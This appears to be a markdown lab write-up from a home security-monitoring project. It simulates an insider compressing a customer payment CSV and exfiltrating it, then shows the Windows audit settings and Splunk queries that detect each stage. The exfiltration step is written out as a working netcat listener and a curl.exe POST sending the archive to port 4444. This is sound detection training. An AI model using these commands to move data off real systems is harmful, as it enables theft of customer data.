






# Phase 5 — Insider Threat & Data Exfiltration

A Finance department account on FIN-WKS-04 accesses customer payment data it has legitimate standing access to, stages it as a compressed archive, and exfiltrates it to an external host. No attack tools, no exploits — just a valid account doing something it shouldn't. This is undetectable by perimeter controls and authentication monitoring alone. Detection required explicitly enabling three separate Windows audit subcategories, none of which are on by default.

---

## Setup — Audit Policies That Had to Be Enabled

Windows 11 out of the box gives you almost no insider threat telemetry. Three audit subcategories and a SACL were required:

```powershell
auditpol /set /subcategory:"File System" /success:enable           # Event ID 4663
auditpol /set /subcategory:"Filtering Platform Connection" /success:enable  # Event ID 5156
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" /v EnableScriptBlockLogging /t REG_DWORD /d 1 /f  # Event ID 4103
```

A SACL (System Access Control List) was also applied to `C:\CustomerExports\` — this tells Windows to generate a 4663 event whenever anyone accesses files in that folder. Without it, file access is never logged regardless of the audit policy setting.

**Target file created:**
```
C:\CustomerExports\payments_export.csv
customer_id,name,card_last4,amount
1001,John Smith,4521,250.00
1002,Sarah Lee,7833,89.50
1003,Mike Chen,1209,432.10
```



---

## Stage 1 — File Access (T1005 — Data from Local System)

The Finance account reads `payments_export.csv`. Windows generates Event ID 4663 — this event captures exactly which file was accessed, by which account, with what access type, and via which process.

**Detection query:**
```spl
index=windows EventCode=4663 Object_Name="*CustomerExports*"
| table _time, Account_Name, Object_Name, AccessMask
```

The expanded event confirms: `Object Name: C:\CustomerExports\payments_export.csv`, `Account Name: ronakmishra`, `Accesses: ReadData`, `Process: powershell.exe`. This is forensic-quality evidence of the exact file that was read.



---

## Stage 2 — Compression (T1560.001 — Archive Collected Data)

`Compress-Archive` packages the payment CSV into `export.zip` on the user's Desktop.

**Critical technical finding:** This does **not** trigger Event ID 4688 (Process Creation). Native PowerShell cmdlets run inside the existing PowerShell engine — they don't spawn a new child process, so 4688 never fires. An analyst relying solely on process creation auditing would have zero visibility into this stage.

Detection required **Event ID 4103** (PowerShell Module Logging) — enabled via registry. This event captures full parameter bindings for every cmdlet execution, including exact source and destination paths.

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4103
| where match(_raw, "(?i)Compress-Archive")
| table _time, ComputerName, _raw
```

The `export.zip` file confirmed on the Desktop immediately after compression:


The 4103 event captures everything: `sourceFilePaths: C:\CustomerExports\payments_export.csv`, `destinationPath: C:\Users\ronakmishra\Desktop\export.zip`, `User: RONAKMISHRA345C\ronakmishra`. More detail than 4688 would have provided even if it had fired.


---

## Stage 3 — Exfiltration (T1048 — Exfiltration Over Alternative Protocol)

`curl.exe` transmits the archive to Kali's netcat listener on port 4444 via an unencrypted HTTP POST. Port 4444 is a non-standard port with no legitimate business use on a Finance workstation.

**On Kali (receives the data):**
```bash
nc -lvnp 4444 > received_data.txt
```

**On FIN-WKS-04 (sends the data):**
```powershell
curl.exe -X POST --data-binary "@C:\Users\$env:USERNAME\Desktop\export.zip" http://10.0.0.100:4444/
```

Kali confirms an inbound connection from `10.0.0.32` (FIN-WKS-04):



The received file is 431 bytes — matching the size of the `export.zip` created in Stage 2, confirming the transfer completed intact:



**Detection query:**
```spl
index=windows EventCode=5156 Destination_Port=4444
| table _time, Application_Name, Source_Address, Destination_Address, Destination_Port
```

The 5156 event shows `Application: curl.exe`, `Source: 10.0.0.32`, `Destination: 10.0.0.100`, `Port: 4444` — unambiguous identification of the exfiltration tool, source, destination, and channel:



---

## Centerpiece — Full Kill Chain Correlated

All three stages correlated into a single Splunk incident using the `transaction` command. This groups events by host within a 30-minute window and only fires when all three stages are present — eliminating false positives from isolated file access or legitimate compression activity.

```spl
index=windows (EventCode=4663 Object_Name="*CustomerExports*")
    OR (EventCode=4103 _raw="*CompressFilesHelper*")
    OR (EventCode=5156 Destination_Port=4444)
| transaction host maxspan=30m
| where eventcount >= 3
| table _time, host, eventcount, duration
```

The correlated attack chain timeline — all three stages visible in chronological order on a single host, labeled by stage:



The `transaction` result: **27 raw events collapsed into 1 correlated incident, spanning 1,505 seconds (~25 minutes) on RONAKMISHRA345C**.


This is the query deployed as the **"Meridian - Insider Threat Data Exfiltration Chain"** alert (Critical severity, runs every 10 minutes).

---

Full incident report: [IR-MER-2026-002](../incident-reports/IR-MER-2026-002-insider-data-exfiltration.md)

← [Phase 4](phase4-owasp-detection.md) · [Back to README](../README.md) · [Phase 6 →](phase6-alerts.md)
